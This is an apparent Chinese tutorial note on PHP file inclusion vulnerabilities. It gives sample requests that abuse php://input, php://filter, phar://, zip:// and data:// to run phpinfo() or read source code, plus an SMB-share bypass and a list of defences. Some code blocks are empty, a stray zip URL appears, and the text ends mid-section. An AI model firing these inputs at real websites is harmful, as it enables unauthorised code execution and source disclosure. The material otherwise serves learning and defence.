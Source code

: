 ## 文件包含

[toc]

漏洞概念及原理

漏洞危害

漏洞挖掘方法

漏洞利用条件

漏洞利用手法

漏洞利用的绕过

漏洞防范思路



### 概念或原理

后端具有包含功能的代码接收路径是攻击者可控的,导致包含了预期外的文件

### 漏洞危害

条件满足的情况下:

- 能够执行脚本代码
- 执行系统漏洞
- 读取系统敏感文件

### 漏洞分类

- LFI
- RFI

### include和require的区别

当要包含的文件不存在时，

- include会产生一个警告(Warning)，该语句后面的程序会继续执行；
- require则产生一个致命错误(Fatal error)，程序就此终止。

### include_once(require_once)和include(require)

- include会将指定的文件载入并执行里面的程序，重复引用包含多次；
- include_once函数会将指定的文件载入并执行里面的程序，如果该文件中已经被包含过，则不会再次包含。

### 远程文件包含的条件

一般情况下,需要php.ini中配置allow_url_include=on

### 文件包含漏洞利用方式

- 读取敏感文件、收集信息
- 执行代码和命令:上传文件后包含、构建远程资源并包含、利用php相关伪协议包含

### 典型的系统敏感文件

- Windows

  ```
  
  ```

- Linux

  ```
  
  ```

### php相关伪协议

#### php://input

打开一个文件输入流进行文件内容写入,一般通过POST请求方式写入文件内容

```php
?file=php://input
<?php phpinfo();?>	//脚本内容通过post提交
```

#### php://filter

打开一个文件输入输出流进行读写,常结合base64编码读写不可以直接读写的数据

```php
#读取:
# 明文读取
index.php?file1=php://filter/resource=file.txt

index.php?file1=php://filter/read=convert.base64-encode/resource=index.php	//读取index.php的代码并通过base64编码的方式输出



#写入:
# 明文写入
index.php?file2=php://filter/resource=test.txt&txt=Qftm

# base64编码写入Qftm到test.txt在中
index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm
```

拓展文章

> https://www.anquanke.com/post/id/202510

#### phar://

用于压缩包.zip文件的读取,文件路径可以用绝对路径也可以用相对路径		要求php版本大于5.3.0

```php
?file=phar://../../dvwa/upload/123.zip/123.txt			#相对路径
?file=phar://c:/phpstudy/www/dvwa/upload/123.zip/123.txt	#绝对路径


https://best-sound.info/CKEdit/files/20220925223849.zip
```

#### zip://

功能和用法都和phar://差不多,但只能使用绝对路径,且压缩包内的路径需要用%23来代替/		要求php版本大于5.3.0

```php
zip://c:/phpstudy/www/dvwa/upload/123.zip%23123.txt
```

#### data://

打开一个文件输入流,写入文件内容,使用data://的时候,最好省略php语法中最后的?>

```php
data://text/plain,<?php phpinfo();?>

也可以通过编码传入
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==		#<?php phpinfo();		使用编码需要省略?>,不然会报错
    
通过实验发现这个可能是编码的问题因为<?php phpinfo();?>在编成base64的时候出现了+。而浏览器不认识+号。所以解决方法
不写后面的?> 因为PHP里面其实不需要写后面的前面的;号就已经说明结束了。如果没有;号就必须写?>作为结束。
添加空格改变base64编码。
将+号换成%2b
```



### 文件包含漏洞防护思路

在保证功能正常的情况下

关闭allow_url_include

过滤前端输入的`.  .. /  \`

在生成被包含文件的路径字符串后进行正则检查

使用白名单,限定被包含文件的路径和文件名

配置open_basedir的值,限定读写范围

### 使用SMB包含文件(绕过allow_url_include=off)

- Windows

  在程序和功能打开SMB,然后新建一个文件夹,将脚本文件放在该文件夹内后,共享该文件夹并且添加everyone,即可实现文件共享

  ![image-20220925185302782](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/image-20220925185302782.png)

  文件包含的时候,直接输入`\\主机名(IP地址或者计算机名称)\共享文件夹名称\文件名`即可包含该文件

  #### 绕过思路:过滤反斜杠

### session

储存位置:session的保存位置在php.ini中`session.save_path`字段设置

session的保存形式:	

### php://filter

